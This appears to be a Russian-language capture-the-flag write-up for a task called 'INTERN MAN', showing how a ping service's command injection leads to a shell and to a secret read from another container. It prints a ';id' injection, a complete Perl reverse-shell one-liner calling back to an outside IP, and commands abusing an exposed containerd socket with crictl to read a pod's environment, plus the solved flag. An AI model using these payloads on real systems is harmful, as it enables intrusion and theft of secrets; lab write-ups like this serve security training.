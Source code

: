 # INTERN MAN
Заходим на http://91.105.199.185:20198/, видим сервис который делает пинг по указанному адресу. Пробуем выполнить произвольные команды:
`;id`.
В ответ получаем вывод команды id.

Получаем реверс шелл в контейнер:
```
;perl -e 'use Socket;$i="31.41.99.36";$p=4221;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

Выполняем `mount` и видим:
`tmpfs on /run/containerd/containerd.sock`

Скачиваем crictl:
```
mkdir /tmp/.taxidriver
cd /tmp/.taxidriver
wget https://github.com/kubernetes-sigs/cri-tools/releases/download/v1.26.1/crictl-v1.26.1-linux-amd64.tar.gz
tar zxf crictl-v1.26.1-linux-amd64.tar.gz
rm crictl-v1.26.1-linux-amd64.tar.gz
```

Смотрим список запущенных контейнеров:
`./crictl -r /run/containerd/containerd.sock ps`

Видим интересный test-pod:
`8397cd2b32802 a6838e9a6ff6a 4 days ago Running test1 0 83554ccdc7eea test-pod`

Выводим статус контейнера:
`./crictl -r /run/containerd/containerd.sock inspect 8397cd2b32802`

В "env" видим флаг:
`"intern_secret=deteact{c424c8ff2c020392c3ca26ab689a36a4}"`

Флаг - deteact{c424c8ff2c020392c3ca26ab689a36a4}